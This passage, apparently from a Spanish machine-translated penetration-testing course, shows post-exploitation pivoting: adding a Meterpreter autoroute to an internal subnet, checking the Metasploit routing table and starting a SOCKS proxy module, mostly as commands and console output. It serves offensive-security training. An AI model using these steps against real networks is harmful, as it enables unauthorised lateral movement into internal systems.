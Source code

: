 Para nuestro próximo truco, estableceremos una ruta al`172.16.9.0/23`subred.

  Después de la explotación

```shell-session
(Meterpreter 2)(C:\) > run autoroute -s 172.16.9.0/23

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.16.9.0/255.255.254.0...
[+] Added route to 172.16.9.0/255.255.254.0 via 10.10.14.15
[*] Use the -p option to list all active routes
```

Podemos confirmar esto verificando la tabla de enrutamiento MSF.

  Después de la explotación

```shell-session
(Meterpreter 2)(C:\) > background
[*] Backgrounding session 2...
[msf](Jobs:0 Agents:2) exploit(multi/handler) >> route print

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   172.16.9.0         255.255.254.0      Session 2
```

Ahora necesitamos configurar un proxy de calcetines, que es el paso final antes de poder comunicarnos directamente con el`172.16.9.0/23`Red de nuestro host de ataque.

  Después de la explotación

```shell-session
[msf](Jobs:0 Agents:2) exploit(multi/handler) >> use auxiliary/server/socks_proxy 
[msf](Jobs:0 Agents:2) auxiliary(server/socks_proxy) >> show options 

Module options (auxiliary/server/socks_proxy):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        Proxy password for SOCKS5 listener
   SRVHOST   0.0.0.0          yes       The local host or network interface to listen on. This
                                        must be an address on the local machine or 0.0.0.0 to l
                                        isten on all addresses.
   SRVPORT   1080             yes       The port to listen on
   USERNAME                   no        Proxy username for SOCKS5 listener
   VERSION   5                yes       The SOCKS version to use (Accepted: 4a, 5)


Auxiliary action:

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server


[msf](Jobs:0 Agents:2) auxiliary(server/socks_proxy) >> set srvport 9050
srvport => 9050
[msf](Jobs:0 Agents:2) auxiliary(server/socks_proxy) >> set version 4a
version => 4a
[msf](Jobs:0 Agents:2) auxiliary(server/socks_proxy) >> run
[*] Auxiliary module running as background job 0.
[msf](Jobs:1 Agents:2) auxiliary(server/socks_proxy) >> 
[*] Starting the SOCKS proxy server
```